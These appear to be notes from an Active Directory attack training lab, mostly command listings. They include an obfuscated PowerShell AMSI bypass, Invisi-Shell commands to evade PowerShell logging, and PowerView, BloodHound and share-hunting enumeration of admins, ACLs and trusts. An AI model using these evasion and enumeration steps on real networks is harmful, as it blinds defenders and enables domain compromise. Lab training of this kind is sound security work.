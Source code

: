 ### SUMMARY 
- [Learning Objective 1](#Learning-Objective-1)
- [Learning Objective 2](#Learning-Objective-2)
- [Learning Objective 3](#Learning-Objective-3)
- [Learning Objective 4](#Learning-Objective-4)

### AMSI bypass
```
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

### Start a PowerShell session using Invisi-Shell to avoid enhanced logging
```
C:\AD\Tools>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
```
C:\AD\Tools>set COR_ENABLE_PROFILING=1
C:\AD\Tools>set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}" /f
The operation completed successfully.
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}\InprocServer32" /f
The operation completed successfully.
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}\InprocServer32" /ve /t REG_SZ /d 
"C:\AD\Tools\InviShell\InShellProf.dll" /f
The operation completed successfully.
C:\AD\Tools>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```

### Load PowerView
```
. C:\AD\Tools\PowerView.ps1
```

### Learning Objective 1
#### Enumerate following for the dollarcorp domain:
* Users
* Computers
* Domain Administrators
* Enterprise Administrators
* Use BloodHound to identify the shortest path to Domain Admins in the dollarcorp domain.
* Find a file share where studentx has Write permissions.

### PowerView
**List informations about all users** 
```
Get-DomainUser
```

**List a specific property of all the users**
```
Get-DomainUser | select -ExpandProperty samaccountname
```

**Enumerate member computers**
```
Get-DomainComputer | select -ExpandProperty dnshostname
```

**See details of the Domain Admins group**
```
Get-DomainGroup -Identity "Domain Admins"
```

**Enumerate members of the Domain Admins group**
```
Get-DomainGroupMember -Identity "Domain Admins"
```

**Enumerate members of the Enterprise Admins group**
```
Get-DomainGroupMember -Identity "Enterprise Admins"
```

**Query the root domain as Enterprise Admins group is present only in the root of a forest**
```
Get-DomainGroupMember -Identity "Enterprise Admins" -Domain moneycorp.local
```
### ADModule
```
Import-Module C:\AD\Tools\ADModulemaster\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModulemaster\ActiveDirectory\ActiveDirectory.psd1

Get-ADUser -Filter *
Get-ADUser -Filter * -Properties *| select Samaccountname,Description
Get-ADComputer -Filter *
Get-ADGroupMember -Identity 'Domain Admins'
Get-ADGroupMember -Identity 'Enterprise Admins' -Server moneycorp.local
```

### BloodHound ingestores
```
C:\AD\Tools\BloodHound-master\BloodHoundmaster\Collectors\SharpHound.exe --collectionmethods Group,GPOLocalGroup,Session,Trusts,ACL,Container,ObjectProps,SPNTargets --excludedcs
```

### PowerHuntShares
```
Import-Module C:\AD\Tools\PowerHuntShares.psm1
Invoke-HuntSMBShares -NoPing -OutputDirectory C:\AD\Tools\ -HostList C:\AD\Tools\servers.txt

[*][12/24/2024 04:02] - All files written to C:\AD\Tools\\SmbShareHunt12242024040138
```



### Learning Objective 2
#### Enumerate following for the dollarcorp domain:
* ACL for the Domain Admins group
* ACLs where studentx has interesting permissions
* Analyze the permissions for studentx in BloodHound UI

**Enumerate ACLs for the Domain Admins Group**
```
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs -Verbose
```

**check for modify rights/permissions for the studentx**
```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "studentx"} 
```

**Check permissions on RDPUsers group**
```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

### Learning Objective 4
**Enumerate all domains in the moneycorp.local forest** 
* Map the trusts of the dollarcorp.moneycorp.local domain.
* Map External trusts in moneycorp.local forest. 
* Identify external trusts of dollarcorp domain. Can you enumerate trusts for a trusting forest?

### PowerView

**Enumerate all domains in the current forest**
```
Get-ForestDomain -Verbose
```

**Map all the trusts of the dollarcorp domain**
```
Get-DomainTrust
```

**List only the external trusts**
```
Get-ForestDomain | %{Get-DomainTrust -Domain $_.Name} | ?{$_.TrustAttributes -eq "FILTER_SIDS"}
```

**Identify external trusts of the dollarcorp domain**
```
Get-DomainTrust | ?{$_.TrustAttributes -eq "FILTER_SIDS"}
```

**Since the above is a Bi-Directional trust, we can extract information from the eurocorp.local forest**
```
Get-ForestDomain -Forest eurocorp.local | %{Get-DomainTrust -Domain $_.Name}
```


## Using Active Directory module
```
(Get-ADForest).Domains
Get-ADTrust -Filter *
Get-ADForest | %{Get-ADTrust -Filter *}
(Get-ADForest).Domains | %{Get-ADTrust -Filter '(intraForest -ne $True) -and (ForestTransitive -ne $True)' -Server $_}
Get-ADTrust -Filter '(intraForest -ne $True) -and (ForestTransitive -ne $True)'
Get-ADTrust -Filter * -Server eurocorp.local
```



